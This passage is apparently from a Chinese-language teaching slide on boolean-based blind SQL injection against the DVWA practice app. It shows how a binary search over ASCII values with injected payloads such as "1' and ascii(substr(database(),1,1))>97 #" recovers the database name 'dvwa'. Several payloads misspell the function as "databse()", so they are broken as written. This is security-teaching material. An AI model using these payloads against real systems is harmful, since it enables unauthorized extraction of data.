

思考：如何获得数据库名字？一个个数据库名字尝试？何不采用二分法？
| 输入1' and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）； 输入1' and Ascii(Substr(database(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）； 输入1' and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）； 输入1' and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）； 输入1' and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）； 输入1' and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。 … |
| --- |
重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。